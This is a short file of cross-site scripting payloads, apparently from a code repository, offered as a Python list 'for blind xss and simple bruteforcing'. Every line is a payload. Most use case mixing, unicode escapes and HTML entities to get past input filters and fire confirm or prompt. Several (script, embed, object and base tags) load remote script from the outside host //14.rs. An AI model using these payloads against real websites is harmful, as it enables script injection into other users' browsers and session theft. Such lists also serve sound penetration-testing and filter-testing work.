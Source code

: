 # XSS-payloads
collected from everywhere 


payloads = [ # Payloads for blind xss and simple bruteforcing

'\'"</Script><Html Onmouseover=(confirm)()//'

'<imG/sRc=l oNerrOr=(prompt)() x>'

'<!--<iMg sRc=--><img src=x oNERror=(prompt)`` x>'

'<deTails open oNToggle=confi\u0072m()>'
  
'<img sRc=l oNerrOr=(confirm)() x>'

'<svg/x=">"/onload=confirm()//'

'<svg%0Aonload=%09((pro\u006dpt))()//'

'<iMg sRc=x:confirm`` oNlOad=e\u0076al(src)>'
  
'<sCript x>confirm``</scRipt x>'

'<Script x>prompt()</scRiPt x>'

'<sCriPt sRc=//14.rs>'
  
'<embed//sRc=//14.rs>'

'<base href=//14.rs/><script src=/>'

'<object//data=//14.rs>'

'<s=" onclick=confirm``>clickme'

'<svG oNLoad=co\u006efirm&#x28;1&#x29>'

'\'"><y///oNMousEDown=((confirm))()>Click'

'<a/href=javascript&colon;co\u006efirm&#40;&quot;1&quot;&#41;>clickme</a>'

'<img src=x onerror=confir\u006d`1`>'

'<svg/onload=co\u006efir\u006d`1`>']
